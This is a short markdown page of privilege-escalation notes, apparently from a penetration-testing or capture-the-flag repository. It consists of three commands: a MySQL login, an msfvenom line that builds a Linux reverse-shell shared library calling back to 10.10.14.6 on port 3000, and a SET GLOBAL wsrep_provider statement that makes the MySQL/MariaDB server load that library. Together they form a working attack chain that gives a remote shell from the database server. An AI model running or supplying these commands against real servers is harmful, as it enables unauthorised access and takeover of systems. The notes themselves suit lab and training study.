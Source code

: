 # Priviledge Escalation

```
mysql -h 127.0.0.1 -u username -p
```

```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.6 LPORT=3000 -f elf-so -o shell.so
```

```
SET GLOBAL wsrep_provider="/path/to/exploit.so";
```